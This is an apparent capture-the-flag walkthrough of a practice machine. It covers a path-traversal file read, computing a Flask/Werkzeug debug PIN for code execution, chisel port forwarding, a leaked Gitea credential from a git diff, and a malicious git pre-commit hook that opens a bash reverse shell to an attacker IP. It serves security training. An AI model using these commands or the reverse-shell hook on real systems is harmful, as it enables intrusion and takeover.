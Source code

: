 ## Info

### Credential

| User  | Password                | Service | Note |
| ----- | ----------------------- | ------- | ---- |
| dev01 | Soulless_Developer#2022 |         |

## Path

### User

1. We can use `..%2F` to read arbitrary file on the box.

```bash
$ curl 'http://10.10.11.164/uploads/..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F/etc/passwd'
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
...
```

2. Since Flask is in debug mode, we could RCE from the debug console. But we need to find out the PIN first. I don't know why I cannot read `/proc/sys/kernel/random/boot_id`, `/proc/self/cgroup`, and `/sys/class/net/eth0/address` using Python or `curl`, so I use BurpSuite.

- [Method 1](https://ctftime.org/writeup/17955)
- [Method 2](https://www.daehee.com/werkzeug-console-pin-exploit/)
- MAC address can be get from `..//sys/class/net/eth0/address`

```python3
> ..//sys/class/net/eth0/address
02:42:ac:11:00:03

print(0x0242ac110003)
2485377892355
```

3. Use `exploit-pin.py` to generate the PIN and access the interactive debug console to RCE.

4. In the container, we can access the previously filtered port 3000 on host `172.17.0.1`, and it is a Gitea page. Use [`chisel`](https://github.com/jpillora/chisel) to do reverse port forwarding, so we can access the webpage easily.

```bash
# Forward 172.17.0.1:3000 to 127.0.0.1:7002
# own machine
$ ./chisel_1.7.7_linux_amd64 server --port 7001 --reverse

# on box
./chisel_1.7.7_linux_amd64 client http://10.10.17.233:7001 R:7002:172.17.0.1:3000
```

5. From the download source, we can found the developer's credential, and we can use it to log on to Gitea.

```bash
git diff  a76f8f75f7a4a12b706b0cf9c983796fa1985820
...
-{
-  "python.pythonPath": "/home/dev01/.virtualenvs/flask-app-b5GscEs_/bin/python",
-  "http.proxy": "http://dev01:Soulless_Developer#2022@10.10.10.128:5187/",
-  "http.proxyStrictSSL": false
-}
```

6. From `dev01`'s repo, we can found its ssh private key, and use it to log on to the box.

### Root

1. Root seems to be doing something using `cron`.

```bash
     ├─cron -f
     │   └─cron -f
     │       └─sh -c /usr/local/bin/git-sync
     │           └─git-sync /usr/local/bin/git-sync
     │               └─git commit -m Backup for 2022-08-14
     │                   └─pre-commit .git/hooks/pre-commit
     │                       ├─cat /tmp/f
     │                       ├─nc 10.10.16.3 8199
     │                       └─sh -i
```

2. Since it runs pre-commit on `dev01`'s home, we can register a pre-commit than give us a root reverse shell.

```bash
# /home/dev01/.git/hooks/pre-commit
#!/bin/sh
#
# An example hook script to verify what is about to be committed.
# Called by "git commit" with no arguments.  The hook should
# exit with non-zero status after issuing an appropriate message if
# it wants to stop the commit.
#
# To enable this hook, rename this file to "pre-commit".

bash -c 'bash -i >& /dev/tcp/10.10.17.233/7001 0>&1'
```

```

```
